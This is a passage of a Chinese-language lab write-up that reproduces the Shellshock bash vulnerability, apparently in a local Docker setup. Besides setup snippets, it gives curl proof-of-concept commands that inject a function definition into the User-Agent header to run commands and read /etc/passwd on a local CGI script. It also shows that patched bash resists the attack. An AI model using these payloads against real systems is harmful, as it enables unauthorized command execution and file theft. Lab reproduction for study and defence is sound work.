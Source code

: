 ```bash
sudo $(which docker-compose) up -d
```

### pyenv 安装指定python版本国内镜像加速

```bash
PYENV_CACHE="~/.pyenv/cache"
PY_VER="3.6.4" # 根据需要修改为你想要安装的python版本号
PY_URL="http://mirrors.sohu.com/python/${PY_VER}/Python-${PY_VER}.tar.xz"
[ -d ${PYENV_CACHE} ] ||  mkdir -p ${PYENV_CACHE}
cd ${PYENV_CACHE} && wget ${PY_URL}
[ $? -eq 0 ] && pyenv install ${PY_VER}
```

# 相关漏洞总结

[GNU » Bash : Security Vulnerabilities Published In 2014](https://www.cvedetails.com/vulnerability-list.php?vendor_id=72&product_id=21050&version_id=&page=1&hasexp=0&opdos=0&opec=0&opov=0&opcsrf=0&opgpriv=0&opsqli=0&opxss=0&opdirt=0&opmemc=0&ophttprs=0&opbyp=0&opfileinc=0&opginf=0&cvssscoremin=0&cvssscoremax=0&year=2014&month=0&cweid=0&order=2&trc=6&sha=680c4355bdd4ddd349907d67b6330425f8f5c193)

# 漏洞利用复现

## 漏洞存在性证明

```bash
# 针对未打补丁的bash进行shellshock攻击可以执行任意指令
curl -H "User-Agent: () { foo;}; echo \"Content-Type: text/plain\" ; echo ; /usr/bin/id" http://127.0.0.1/victim.cgi
curl -H "User-Agent: () { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://127.0.0.1/victim.cgi
```

![](attach/img/poc-1.png)

```bash
# 针对已打补丁的bash进行shellshock攻击无效
curl -H "User-Agent: () { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://127.0.0.1/safe.cgi
curl -H "User-Agent: () { foo;}; echo \"Content-Type: text/plain\" ; echo ; /usr/bin/id" http://127.0.0.1/safe.cgi
```
